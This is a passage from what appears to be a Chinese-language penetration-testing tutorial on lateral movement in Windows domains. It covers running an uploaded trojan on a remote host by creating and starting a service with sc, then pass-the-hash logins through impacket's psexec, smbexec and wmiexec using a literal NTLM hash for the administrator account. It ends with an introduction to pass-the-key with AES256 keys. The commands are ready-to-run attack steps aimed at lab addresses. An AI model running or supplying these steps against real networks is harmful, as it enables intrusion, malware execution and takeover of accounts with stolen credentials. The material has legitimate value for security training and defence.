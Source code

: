 #### 执行木马

木马上传后，我们就需要执行木马，那么执行木马则使用SC命令来操作，关于这个命令我也不想介绍，直接自行搜搜吧。

```
sc \\192.168.20.10 create shell binpath= "c:\1313.exe"
sc \\192.168.20.10 start shell
```

![image-20230705163558564](https://s2.loli.net/2023/07/17/lHUFfBJtZ2XTSAw.png)

#### 查看上线情况

可以看到这里是成功上线了。

![image-20230705163858751](https://s2.loli.net/2023/07/17/jPGHvtkzEhbimNo.png)

## impacket套件

关于这个套件使用的方式和上篇写过的文章中利用的方式是一样的，只是之前都是使用hash加密去验证，这里就是将hash值替换成ntlm值，具体的使用方式就不说了，直接提供参考命令。

```
python3 psexec.py -hashes :579da618cfbfa85247acf1f800a280a4 ./administrator@192.168.20.10
python3  smbexec.py -hashes :579da618cfbfa85247acf1f800a280a4 /administrator@192.168.20.10
python3  wmiexec.py -hashes :579da618cfbfa85247acf1f800a280a4 /administrator@192.168.20.10
```

# 横向移动—PTK传递

## PTK介绍

pass the key （密钥传递攻击，简称 PTK）是在域中攻击 kerberos 认证的一种方式，原理是通过获取用户的aes，通过 kerberos 认证，可在NTLM认证被禁止的情况下用来实现类似pth的功能。

其实准确来说必须禁用NTLM，才能使用PTK来传递，同时必须打上补丁，两个条件缺一不可，才能使用，所以总体来说比较鸡肋。

## aes256传递—打补丁演示

前面也介绍过，打了补丁不同的协议会出现不同的结果。

```
没打补丁：
	pth：所有用户均可以连接，使用lm或ntlm连接。
打了补丁：
	pth：只能连接administrator。
	ptk：所有用户均可以连接，使用aes256连接。
```

### 微软公告

这里可以去查微软的公告对其的介绍：

[微软公告](https://support.microsoft.com/zh-cn/topic/microsoft-%E5%AE%89%E5%85%A8%E5%85%AC%E5%91%8A-%E7%94%A8%E4%BA%8E%E6%94%B9%E8%BF%9B%E5%87%AD%E6%8D%AE%E4%BF%9D%E6%8A%A4%E5%92%8C%E7%AE%A1%E7%90%86%E7%9A%84%E6%9B%B4%E6%96%B0-2014-%E5%B9%B4-5-%E6%9C%88-13-%E6%97%A5-93434251-04ac-b7f3-52aa-9f951c14b649)
